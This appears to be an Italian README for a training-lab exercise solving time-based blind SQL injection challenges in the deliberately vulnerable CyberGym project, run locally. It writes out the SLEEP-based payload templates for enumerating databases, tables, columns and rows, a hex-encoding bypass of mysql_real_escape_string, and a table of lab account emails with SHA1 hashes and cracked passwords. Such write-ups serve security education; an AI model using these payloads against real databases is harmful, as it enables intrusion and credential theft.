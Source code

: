 ## Time based blind SQLi

La challenge prevede la preparazione di uno script in linguaggio a piacere (ho scelto il python) per l'exploit della vulnerabilità
che permette SQLi di tipo Time-based blind su due pagine del progetto [CyberGym](https://github.com/AvalZ/cyber-gym) 
(nel mio caso installato su una macchina virtuale eseguita in locale).

Lo svolgimento della prima challenge si può trovare [qui](Time-Based_Blind.md)

Lo svolgimento della seconda [qui](Time-Based_Blind_escaped.md)

Lo script scritto per la loro risoluzione è il [blind_sqli.py](blind_sqli.py) (python 3) presente nel repository.

I dati di login recuperati dalla tabella accounts sono i seguenti:

email            | password(sha1)                           | password in chiaro
-----------------|------------------------------------------|-------------------
arthur@guide.com | d00ee262cdcbe7543210bb85f6f1cac257b4e994 | Bathrobe
ford@guide.com   | 30f5cc99c17426a0d28acf8905c6d776039ad022 | Betelgeuse
tricia@guide.com | bcb3358e273b5772ee0ae1799b612e13cc726b04 | Trillian
zaphod@guide.com | 0c38530eaca4dbc0f49c459c0c52b362f14215c3 | Pan-GalacticGargleBlaster

Le password in chiaro sono state ottenute attraverso lo script [Hash Buster v3.0](https://github.com/s0md3v/Hash-Buster)

Per entrambe le challenge è stato usato lo stesso numero di coppie di query, per le quali è stato modificato il "wrapping"
in modo da generare il payload a seconda della tipologia di parametro che si andava a sfruttare:

1. recupero database:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_databases FROM information_schema.schemata)x WHERE x.n_databases = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT schema_name FROM information_schema.schemata LIMIT {},1)x WHERE MID(x.schema_name,{},1) = {} AND SLEEP(0.1)"
2. recupero nomi tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_tables FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + "))x WHERE x.n_tables = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT table_name FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + ") LIMIT {},1)x WHERE MID(x.table_name,{},1) = {} AND SLEEP(0.1)"
3. recupero nomi colonne e tipo dato nelle tabelle:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_columns FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + "))x WHERE x.n_columns = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT CONCAT(column_name,"+hex(ord(':'))+",column_type) AS column_info FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + ") LIMIT {},1)x WHERE MID(x.column_info,{},1) = {} AND SLEEP(0.1)"
4. recupero dati presenti nelle colonne passate in input:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_rows FROM  " + db + '.' + table + ")x WHERE n_rows = {} AND SLEEP(0.1)"
	- extracton: "SELECT * FROM(SELECT CONCAT(" + columns_concat + ") AS data FROM " + db + '.' + table + " LIMIT {},1)x WHERE MID(x.data,{},1) = {} AND SLEEP(0.1)"
	
dove:
	- database_hex: lista dei caratteri, separati da virgola, in codifica esadecimale da passare a concat per il bypass di mysql_real_escape_string
	- table_hex: stessa cosa, ma per il nome della tabella passata in input
	
Infine, dall'analisi del jitter delle risposte ho notato che (nel mio ambiente locale, virtualizzato) questo era molto oscillante, ma comunque
si attestava sempre sotto i 0.1 secondi, portandomi a supporre questo valore come sufficiente per una corretta estrazione dei risultati cercati
per entrambe le challenge

Ho incluso nel repository due file .sh che riepilogano tutti i passaggi necessari per l'estrazione.

